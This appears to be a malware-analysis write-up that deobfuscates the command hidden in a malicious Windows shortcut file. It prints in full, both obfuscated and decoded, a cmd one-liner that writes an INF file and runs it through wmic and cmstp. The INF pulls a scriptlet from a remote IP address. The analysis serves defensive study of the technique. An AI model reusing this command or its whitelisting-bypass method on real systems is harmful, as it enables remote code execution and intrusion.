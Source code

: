 ```batch
Command Line: /v /c set "UoglocMF5002=items" && call set "UoglocMF94812=%UoglocMF5002:~4,1%" && !UoglocMF94812!et "UoglocMF5127=a" && !UoglocMF94812!et "UoglocMF6603=t" && !UoglocMF94812!et "UoglocMF06364=d" && !UoglocMF94812!et "UoglocMF9305=c" && call !UoglocMF94812!et "UoglocMF21627=%ran!UoglocMF06364!om%.inf" && call !UoglocMF94812!et "UoglocMF6838=%app!UoglocMF06364!ata%\Micro!UoglocMF94812!oft\!UoglocMF21627!" && !UoglocMF94812!et "UoglocMF14637=." && !UoglocMF94812!et "UoglocMF15608="^" && (for %l in ("[ver!UoglocMF94812!ion]" "!UoglocMF94812!ign!UoglocMF5127!ture=$Window!UoglocMF94812! NT$" "[!UoglocMF06364!e!UoglocMF94812!tinationdirs]" "2D0D=01" "[!UoglocMF06364!efaultin!UoglocMF94812!tall_singleu!UoglocMF94812!er]" "UnRegis!UoglocMF6603!erOCXs=F251A5" "!UoglocMF06364!elfiles=2D0D" "[F251A5]" "%11%\%UoglocMF7741%crO%UoglocMF37180%j,NI,%UoglocMF2085%%UoglocMF5568%%UoglocMF5568%p%UoglocMF54670%%UoglocMF92584%%UoglocMF92584%209!UoglocMF14637!%UoglocMF0342%141!UoglocMF14637!%UoglocMF0342%61!UoglocMF14637!%UoglocMF0342%11/update!UoglocMF14637!%UoglocMF0342%txt" "[2D0D]" "!UoglocMF21627!" "[!UoglocMF94812!!UoglocMF6603!rings]" "UoglocMF5568=t" "UoglocMF2085=h" "UoglocMF54670=:" "UoglocMF7741=s" "UoglocMF92584=/" "UoglocMF37180=b" "UoglocMF0342=" "!UoglocMF94812!ervicen!UoglocMF5127!me=' '" "!UoglocMF94812!hortsvcn!UoglocMF5127!me=' '") do @e!UoglocMF9305!ho %~l)>"!UoglocMF6838!"&& !UoglocMF94812!t!UoglocMF5127!rt "" /MIN wmi!UoglocMF9305! proce!UoglocMF94812!s call !UoglocMF9305!rea!UoglocMF6603!e "cm!UoglocMF94812!!UoglocMF6603!p /ns /!UoglocMF94812! /su !UoglocMF6838!"
Icon filename: ieframe.dll
```

the `.lnk` file has a `cmd` command but it looks encoded/obfuscated. Let's work out a way to extract the command.

Using [Batch Interpreter](https://raw.githubusercontent.com/DissectMalware/batch_deobfuscator/master/batch_interpreter.py), we can see the command that the attacker is trying to execute:

```batch
(.env) ali@ali-pc > python batch_interpreter.py
Please enter an obfuscated batch command:
/v /c set "UoglocMF5002=items" && call set "UoglocMF94812=%UoglocMF5002:~4,1%" && !UoglocMF94812!et "UoglocMF5127=a" && !UoglocMF94812!et "UoglocMF6603=t" && !UoglocMF94812!et "UoglocMF06364=d" && !UoglocMF94812!et "UoglocMF9305=c" && call !UoglocMF94812!et "UoglocMF21627=%ran!UoglocMF06364!om%.inf" && call !UoglocMF94812!et "UoglocMF6838=%app!UoglocMF06364!ata%\Micro!UoglocMF94812!oft\!UoglocMF21627!" && !UoglocMF94812!et "UoglocMF14637=." && !UoglocMF94812!et "UoglocMF15608="^" && (for %l in ("[ver!UoglocMF94812!ion]" "!UoglocMF94812!ign!UoglocMF5127!ture=$Window!UoglocMF94812! NT$" "[!UoglocMF06364!e!UoglocMF94812!tinationdirs]" "2D0D=01" "[!UoglocMF06364!efaultin!UoglocMF94812!tall_singleu!UoglocMF94812!er]" "UnRegis!UoglocMF6603!erOCXs=F251A5" "!UoglocMF06364!elfiles=2D0D" "[F251A5]" "%11%\%UoglocMF7741%crO%UoglocMF37180%j,NI,%UoglocMF2085%%UoglocMF5568%%UoglocMF5568%p%UoglocMF54670%%UoglocMF92584%%UoglocMF92584%209!UoglocMF14637!%UoglocMF0342%141!UoglocMF14637!%UoglocMF0342%61!UoglocMF14637!%UoglocMF0342%11/update!UoglocMF14637!%UoglocMF0342%txt" "[2D0D]" "!UoglocMF21627!" "[!UoglocMF94812!!UoglocMF6603!rings]" "UoglocMF5568=t" "UoglocMF2085=h" "UoglocMF54670=:" "UoglocMF7741=s" "UoglocMF92584=/" "UoglocMF37180=b" "UoglocMF0342=" "!UoglocMF94812!ervicen!UoglocMF5127!me=' '" "!UoglocMF94812!hortsvcn!UoglocMF5127!me=' '") do @e!UoglocMF9305!ho %~l)>"!UoglocMF6838!"&& !UoglocMF94812!t!UoglocMF5127!rt "" /MIN wmi!UoglocMF9305! proce!UoglocMF94812!s call !UoglocMF9305!rea!UoglocMF6603!e "cm!UoglocMF94812!!UoglocMF6603!p /ns /!UoglocMF94812! /su !UoglocMF6838!"

/v /c set "UoglocMF5002=items"
call set "UoglocMF94812=s"
set "UoglocMF5127=a"
set "UoglocMF6603=t"
set "UoglocMF06364=d"
set "UoglocMF9305=c"
call set "UoglocMF21627=.inf"
call set "UoglocMF6838=\Microsoft\.inf"
set "UoglocMF14637=."
set "UoglocMF15608=""

(for 11UoglocMF7741%cro%UoglocMF37180%j,ni,%UoglocMF2085%%UoglocMF5568%%uoglocmf5568%p%uoglocmf54670%%uoglocmf92584%%uoglocmf92584%209.%uoglocmf0342%141.%uoglocmf0342%61.%uoglocmf0342%11/update.%uoglocmf0342%txt" "[2D0D]" ".inf" "[strings]" "UoglocMF5568=t" "UoglocMF2085=h" "UoglocMF54670=:" "UoglocMF7741=s" "UoglocMF92584=/" "UoglocMF37180=b" "UoglocMF0342=" "servicename=' '" "shortsvcname=' '") do @echo %~l)>"\Microsoft\.inf"

start "" /MIN wmic process call create "cmstp /ns /s /su \Microsoft\.inf"
```